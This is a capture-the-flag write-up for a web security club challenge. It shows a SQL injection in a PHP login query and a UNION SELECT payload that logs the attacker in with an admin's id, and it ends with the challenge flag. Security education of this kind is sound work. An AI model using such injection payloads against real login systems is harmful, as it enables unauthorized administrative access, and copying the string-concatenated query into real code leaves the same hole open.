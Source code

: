 ```yaml
---
title: "I am the admin now"
description: "RISC intro2web challenge 6"
pubDate: "Aug 27 2025"
heroImage: "/hero/RISC.webp"
tags: ["cyber", "python", "sql", "php", "ctf", "exploit"]
---
```


###### [Canonical > RISC](https://writeups.urisc.club/web/6_i_am_the_admin_now/)

## Challenge description

/admin.php is heavily locked down, not allowing anyone to see it except for administrators! There's definitely no way to bypass this.

---

## Approach

Looking through the page's source code, we can find that there is an SQL injection vulnerability in `login.php`:

```php
$sql = "SELECT id, password, fullname FROM users WHERE username = '$username' LIMIT 1";
```

Since the username is concatenated directly into the SQL, we can add in our own SQL to be executed.

We can confirm this by entering `'--` as our username and we get a `mysqli_sql_exception`.

Since the username is near the end of the query, we can't modify any of the preceding SQL, so instead we will try to make it redundant.

Lets look at our query.

```sql
SELECT id, password, fullname FROM users WHERE username = 'index' LIMIT 1
```

> 'index' being my username

If we inject `' UNION SELECT id, password, fullname FROM users WHERE username = index` the sql becomes:

```sql
SELECT id, password, fullname FROM users WHERE username = ''
UNION
SELECT id, password, fullname FROM users WHERE username = index LIMIT 1
```

This combines the result of the first query with the result of the second query. The first query's username is blank so it will return nothing making the query now return solely what our injected half requests.

Now we need to adjust our query to get us admin access.

Looking back at the source code we find the admin page uses the id to authenticate:

```php
$stmt = $conn->prepare("SELECT is_admin, fullname, username FROM users WHERE id = ?");
```

So if we can get our user id to be one of an admin, we can get access to the page.

### The Injection

```sql
' UNION SELECT (SELECT id FROM users WHERE is_admin = 1 LIMIT 1), password, fullname FROM users WHERE username = 'index
```

If we enter the injection as our username, and enter our password, we successfully login.

Navigating to `admin.php` we find our flag waiting for us:

> Administrator Access Granted.
>
> Flag: RISC{look_at_me_i_am_the_admin_now_4f2f48aca573e2d79b4dc8f2ee047658}

Our flag is:

```
RISC{look_at_me_i_am_the_admin_now_4f2f48aca573e2d79b4dc8f2ee047658}
```

